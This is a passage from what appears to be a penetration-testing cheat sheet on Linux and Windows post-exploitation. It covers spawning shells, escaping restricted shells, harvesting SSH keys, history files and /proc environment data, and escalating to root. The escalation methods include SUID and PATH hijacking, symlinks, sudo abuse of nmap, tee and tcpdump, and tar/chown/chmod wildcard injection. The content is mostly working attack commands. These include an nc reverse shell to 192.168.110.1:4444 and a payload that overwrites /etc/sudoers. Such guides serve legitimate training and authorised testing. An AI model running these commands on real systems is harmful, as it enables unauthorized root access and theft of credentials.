
.. code-block :: bash

  perl: exec "/bin/sh";

Ruby
^^^^

.. code-block :: bash

   ruby: exec "/bin/sh"

Lua
^^^

.. code-block :: bash

   lua: os.execute('/bin/sh')

IRB
^^^
(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

VI
^^

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

Also, if we execute

::

  vi ;/bin/bash

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

Nmap
^^^^

(From within nmap)

.. code-block :: bash 

  !sh

Expect
^^^^^^

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact

Sneaky Stealthy SU in (Web) Shells
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say we have a webshell on the server ( probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell. 

**Example**

Webshell like

::

 http://IP/shell.php?cmd=id

If we try 

::

 echo password | su -c whoami

Probably will get

::

 standard in must be a tty

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input.

We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

::

 (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
 root

The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_

Restricted Shell
----------------

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from `Escaping Restricted Linux Shells <https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells>`_ , `Escape from SHELLcatraz <https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells>`_ 

Definition
^^^^^^^^^^
It limits a user's ability and only allows them to perform a subset of system commands. Typically, a combination of some or all of the following restrictions are imposed by a restricted shell:

* Using the 'cd' command to change directories.
* Setting or unsetting certain environment variables (i.e. SHELL, PATH, etc...).
* Specifying command names that contain slashes.
* Specifying a filename containing a slash as an argument to the '.' built-in command.
* Specifying a filename containing a slash as an argument to the '-p' option to the 'hash' built-in command.
* Importing function definitions from the shell environment at startup.
* Parsing the value of SHELLOPTS from the shell environment at startup.
* Redirecting output using the '>', '>|', ", '>&', '&>', and '>>' redirection operators.
* Using the 'exec' built-in to replace the shell with another command.
* Adding or deleting built-in commands with the '-f' and '-d' options to the enable built-in.
* Using the 'enable' built-in command to enable disabled shell built-ins.
* Specifying the '-p' option to the 'command' built-in.
* Turning off restricted mode with 'set +r' or 'set +o restricted 

Real shell implements restricted shells:

* rbash

  ::

   bash -r
   cd
   bash: cd: restricted

* rsh
* rksh

**Getting out of restricted shell**

Reconnaissance
^^^^^^^^^^^^^^

Find out information about the environment.

* Run env to see exported environment variables

* Run 'export -p' to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH ($PATH) and SHELL ($SHELL) variables are '-rx', which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell! 

 * If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...). 
 * If the PATH is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what's allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

Quick Wins
^^^^^^^^^^

* If '/' is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable
  ::

   export PATH=/bin:/usr/bin:/sbin:$PATH
   export SHELL=/bin/sh

  or if chsh command is present just change the shell to /bin/bash

  ::

   chsh
   password: <password will be asked>
   /bin/bash

* If we can copy files into existing PATH, copy
 
 ::

  cp /bin/sh /current/directory; sh

Taking help of binaries
^^^^^^^^^^^^^^^^^^^^^^^

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -> !/bin/sh
* gdb -> !/bin/sh
* more/ less/ man -> !/bin/sh
* vi -> :!/bin/sh : Refer `Breaking out of Jail : Restricted Shell <http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html>`_ and `Restricted Accounts and Vim Tricks in Linux and Unix <http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html>`_ 
* scp -S /tmp/getMeOut.sh x y : Refer `Breaking out of rbash using scp <http://pentestmonkey.net/blog/rbash-scp>`_ 
* awk 'BEGIN {system("/bin/sh")}'
* find / -name someName -exec /bin/sh \;
* tee

 :: 

  echo "Your evil code" | tee script.sh

* Invoke shell thru scripting language

 * Python

  ::

   python -c 'import os; os.system("/bin/bash")

 * Perl

  ::

   perl -e 'exec "/bin/sh";'

SSHing from outside
^^^^^^^^^^^^^^^^^^^
* Use SSH on your machine to execute commands before the remote shell is loaded:

 ::

  ssh username@IP -t "/bin/sh"

* Start the remote shell without loading "rc" profile ( where most of the limitations are often configured)
 
 ::

  ssh username@IP -t "bash --noprofile"






Gather information from files
-----------------------------

In case of LFI or unprivileged shell, gathering information could be very useful. Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_

Operating System
^^^^^^^^^^^^^^^^
::

  cat /etc/issue
  cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

/Proc Variables
^^^^^^^^^^^^^^^
::

 /proc/sched_debug	This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.
 /proc/mounts		Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located
 /proc/net/arp		Shows the ARP table.  This is one way to find out IP addresses for other internal servers.
 /proc/net/route	Shows the routing table information.
 /proc/net/tcp 
 /proc/net/udp  	Provides a list of active connections.  Can be used to determine what ports are listening on the server
 /proc/net/fib_trie	This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target's networking structure
 /proc/version	        Shows the kernel version.  This can be used to help determine the OS running and the last time it's been fully updated.

Each process also has its own set of attributes.  If we have the PID number and access to that process, then we can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it's PID.

::

 /proc/[PID]/cmdline	Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/environ	Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/cwd	Points to the current working directory of the process.  This may be useful if you don't know the absolute path to a configuration file.
 /proc/[PID]/fd/[#]	Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.

The information about Proc variables has been taken from `Directory Traversal, File Inclusion, and The Proc File System <https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>`_

Environment Variables
^^^^^^^^^^^^^^^^^^^^^

::

 cat /etc/profile
 cat /etc/bashrc
 cat ~/.bash_profile
 cat ~/.bashrc
 cat ~/.bash_logout

Configuration Files
^^^^^^^^^^^^^^^^^^^

* Apache Web Server : Helps in figuring out the DocumentRoot where does your webserver files are?

 ::

   /etc/apache2/apache2.conf
   /etc/apache2/sites-enabled/000-default 

User History
^^^^^^^^^^^^

::

  ~/.bash_history
  ~/.nano_history
  ~/.atftp_history
  ~/.mysql_history
  ~/.php_history
  ~/.viminfo

Private SSH Keys / SSH Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  ~/.ssh/authorized_keys : specifies the SSH keys that can be used for logging into the user account 
  ~/.ssh/identity.pub
  ~/.ssh/identity
  ~/.ssh/id_rsa.pub
  ~/.ssh/id_rsa
  ~/.ssh/id_dsa.pub
  ~/.ssh/id_dsa
  /etc/ssh/ssh_config  : OpenSSH SSH client configuration files
  /etc/ssh/sshd_config : OpenSSH SSH daemon configuration file

Unprivileged shell to privileged shell
======================================

Probably, at this point of time, we would have unprivileged shell of user www-data. If you are on Windows, there are particular set of steps. If you are on linux, it would be a good idea to first check privilege escalation techniques from g0tm1lk blog such as if there are any binary executable with SUID bits, if there are any cron jobs running with root permissions. 

If you have become a normal user of which you have a password, it would be a good idea to check sudo -l to check if there are any executables you have permission to run.

Windows Privilege Escalation
----------------------------

If you have a meterpreter from a windows box, probably, the first thing would be to utilize

Metasploit Local Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Metasploit local_exploit_suggester : The module suggests local meterpreter exploits that can be used. The exploits are suggested based on the architecture and platform that the user has a shell opened as well as the available exploits in meterpreter.

  .. Note :: It is utmost important that the meterpreter should be of the same architecture as your target machine, otherwise local exploits may fail. For example. if you have target as windows 64-bit machine, you should have 64-bit meterpreter.

Sherlock Powershell Script
^^^^^^^^^^^^^^^^^^^^^^^^^^

`Sherlock <https://github.com/rasta-mouse/Sherlock>`_ PowerShell script by rastamouse to quickly find missing software patches for local privilege escalation vulnerabilities. If the Metasploit local_exploit_suggester didn't resulted in     any exploits. Probably, try Sherlock Powershell script to see if there any vuln which can be exploited.

Windows Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^
`Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

::

 [-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.

Possibly, migrate into a new process using post/windows/manage/migrate

Privilege escalation from g0tm1lk blog
--------------------------------------

What "Advanced Linux File Permissions" are used?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sticky bits, SUID & GUID

::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
Where can written to and executed from?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A few 'common' places: /tmp, /var/tmp, /dev/shm

::

  find / -writable -type d 2>/dev/null      # world-writeable folders
  find / -perm -222 -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type f 2>/dev/null     # world-writeable files

  find / -perm -o x -type d 2>/dev/null     # world-executable folders
  find / -perm -o x -type f 2>/dev/null     # world-executable files

  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

* If the below files are world writable, we could do privilege escalation.

 * /etc/passwd 

  * Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information. 
  * For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow. 
  * Historically, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled. 
  * If passwordless accounts are disabled, you can put the hash of a password of your choice. You can use the crypt function to generate password hashes, for example

   ::
    
      perl -le 'print crypt("foo", "aa")' to set the password to foo. 

  * It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

Any "problem" files?
^^^^^^^^^^^^^^^^^^^^

Word-writeable, "nobody" files

::

  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
  find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Find files/ folder owned by the user
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

::

  find / -user username 2> /dev/null
  find / -group groupname 2> /dev/null


.. Tip :: Find files by wheel/ adm users.

Execution of binary from Relative location than Absolute
--------------------------------------------------------
If we figure out that a suid binary is running with relative locations ( for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home" )( figured out by running strings on the binary ). The problem with this is, that it’s trying to execute a file/script/program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

so we can create a file in temp:

::

  echo "bash -i" >> /tmp/id 

  or 

  cp /bin/sh /tmp/id

:: 

  www-data@yummy:/tmp$ cp /bin/sh id
  www-data@yummy:/tmp$ export PATH=/tmp:$PATH
  www-data@yummy:/tmp$ which id
  /tmp/id
  www-data@yummy:/tmp$ /opt/backjob
  whoami
  root
  # /usr/bin/id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is: /opt/backjob switches user context to root (as it is suid) and tries to run “scp …” -> Linux searches the filesystem according to its path (here: in /tmp first) -> Our malicious /tmp/scp gets found and executed as root -> A new bash opens with root privileges.

If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

::

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

It is important to see .bash_profile file which contains the $PATH

Symlink Creation
----------------

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

::

 ln -s /etc/shadow /home/xxxxxx/example.conf
 ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

::

 readExampleConf /home/xxxxxxx/example.conf
 <Contents of shadow or id_rsa



MySQL Privileged Escalation
---------------------------

If mysql ( version 4.x, 5.x ) process is running as root and we do have the mysql root password and we are an unprivileged user, we can utilize `User-Defined Function (UDF) Dynamic Library Exploit <http://www.0xdeadbeef.info/exploits/raptor_udf.c>`_ . A blog named `Gaining a root shell using mysql user defined functions and setuid binaries <https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/>`_  

More Information
^^^^^^^^^^^^^^^^

* The MySQL service should really not run as root. The service and all mysql directories should be run and accessible from another account - mysql as an example.

* When MySQL is initialized, it creates a master account (root by default) that has all privileges to all databases on MySQL. This root account differs from the system root account, although it might still have the same password due to default install steps offered by MySQL.

* Commands can be executed inside MySQL, however, commands are executed as the current logged in user.

::

  mysql> \! sh

Cron.d
------

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

or

::

 int main(void) {
 setgid(0); setuid(0);
 system("/bin/bash"); }



SUDO -l Permissions
-------------------

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find

nmap suid
^^^^^^^^^

:: 

  nmap --script <(echo 'require "os".execute "/bin/sh"')

or

:: 

  nmap --interactive

tee suid
^^^^^^^^

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

:: 

  temp.sh
  echo "example_user ALL=(ALL) ALL" > /etc/sudoers 

or 

::

  chmod +w /etc/sudoers to add write properties to sudoers file to do the above

and then

:: 

  cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

which will add contents of temp.sh to tidyup.sh. ( Assuming tidyup.sh is running as root by crontab )

tcpdump
^^^^^^^

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

:: 

  id
  /bin/nc 192.168.110.1 4444 -e /bin/bash

Execute the command

:: 

  sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

where
 
:: 

  -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

  -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

  -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

  Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

  And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.


find
^^^^

If find is suid, we can use

::

 touch foo
 find foo -exec whoami \;

Here, the foo file ( a blank file ) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in `Linux PrivEsc: Abusing SUID <https://www.gracefulsecurity.com/linux-privesc-abusing-suid/>`_




More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.


Unix Wildcards
--------------

The below text is directly from the `DefenseCode Unix WildCards Gone Wild <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

Chown file reference trick (file owner hijacking)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

:: 

  [root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

:: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

Let's see who owns files now...

:: 

  root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php

Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

:: 

  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

Let's check chown manual page (man chown):

:: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


Chmod file reference trick
^^^^^^^^^^^^^^^^^^^^^^^^^^

Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

:: 

  --reference=RFILE    :   use RFILE's mode instead of MODE values

Example is presented below.

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

:: 

  [root@defensecode public]# chmod 000 *

Let's check permissions on files...

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

Tar arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

:: 

    [root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

:: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current directory.

:: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

:: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

:: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

Rsync arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

:: 

  -e, --rsh=COMMAND       specify the remote shell to use
  --rsync-path=PROGRAM    specify the rsync to run on remote machine			

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

:: 

  # rsync -t *.c foo:src/


Directory content:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
